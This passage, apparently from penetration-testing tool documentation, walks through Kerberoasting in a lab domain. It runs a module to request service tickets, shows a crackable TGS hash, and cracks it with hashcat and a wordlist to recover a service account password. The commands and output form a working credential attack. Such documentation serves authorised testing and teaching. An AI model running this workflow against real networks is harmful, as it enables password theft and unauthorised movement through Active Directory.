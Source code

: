 The easiest way to enumerate Kerberoastable accounts is with the `auxiliary/gather/get_user_spns` module which internally leverages Impacket.
This module will automatically query LDAP for Kerberoastable SPNs and request a Kerberos service ticket that may be encrypted using the weak password
which can be bruteforced:

```
use auxiliary/gather/get_user_spns
run rhost=192.168.123.13 user=<username> pass=<password> domain=<domain>
```

If you followed the lab setup setup above, this should output the following result:

```msf
msf auxiliary(gather/get_user_spns) > run rhost=192.168.123.13 user=Administrator pass=p4$$w0rd domain=adf3.local

[*] Running for 192.168.123.13...
[+] ServicePrincipalName                    Name                MemberOf  PasswordLastSet             LastLogon  Delegation
[+] --------------------------------------  ------------------  --------  --------------------------  ---------  ----------
[+] DC3/svc_kerberoastable.ADF3.LOCAL:1337  svc_kerberoastable            2023-01-23 23:52:19.445592  <never>
[+] $krb5tgs$23$*svc_kerberoastable$ADF3.LOCAL$adf3.local/svc_kerberoastable*$c2e73c1dcdcef4c926cb263abedf75ed$263fea3ad446bd6b4b8... etc etc ...
```

The final line contains the service ticket hash in a crackable format. Next paste this hash `$krb5tgs$23$*svc_kerberoastable$ADF3.LOCAL$adf3.local/svc_kerberoastable*$c2e73c1..etc etc...` into a new file called `hash.txt`
You can run Hashcat to crack the hash with a wordlist of choice, and see if the status of the hash has been marked as cracked:

```
$ hashcat -m 13100 --force -a 0 hash.txt /usr/share/wordlists/rockyou.txt
... etc ...
Session..........: hashcat
Status...........: Cracked
... etc ...
```

If the password has been cracked you can view the result at a later date with the above command and `--show` appended:

```
$ hashcat -m 13100 --force -a 0 hash.txt /usr/share/wordlists/rockyou.txt --show
$krb5tgs$23$*svc_kerberoastable$ADF3.LOCAL$adf3.local/svc_kerberoastable*$c2e73c1dcdcef4c926cb...etc etc...:password123
                                                                                                         ^ cracked password
```

Now that you have access to the password of the service account, you can use this to enumerate further in the AD environment.

### Manual workflow
